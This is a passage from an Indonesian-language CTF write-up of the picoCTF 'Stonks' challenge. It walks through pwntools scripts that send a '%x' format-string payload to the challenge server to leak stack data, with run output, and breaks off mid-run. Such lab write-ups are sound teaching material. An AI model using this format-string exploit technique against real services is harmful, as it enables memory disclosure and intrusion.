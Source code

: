 ```
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x\n")

#tampilkan hasilnya
print(r.recvline())
```
Script ini akan menghubungkan kita ke server CTF, menerima buffer sampai ada kata '2) View my portfolio\n' yang mana ini menandakan ada prompt untuk input mau lihat porto atau beli stonk, lalu kita input '1\n' untuk beli stock. Alasan kita tambahkan newline (\n) ke input agar input kita terkirim karena scanf akan mengscan sampai ketemu newline atau spasi. Lalu tunggu hingga Prompt untuk input API token muncul, lalu masukkan payload kita. Terakhir, terima stream dari server sampai ketemu newline untuk memeriksa apakah script kita benar. 

Setelah kita coba:
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x\n")
b'Buying stonks with token:\n'
[*] Closed connection to mercury.picoctf.net port 59616
```
Nah masuk, tapi belum keprint. Coba kita tambahkan satu recvline lagi.
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#print hasil exploit
print(r.recvline())
```
Coba kita jalankan ulang
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
```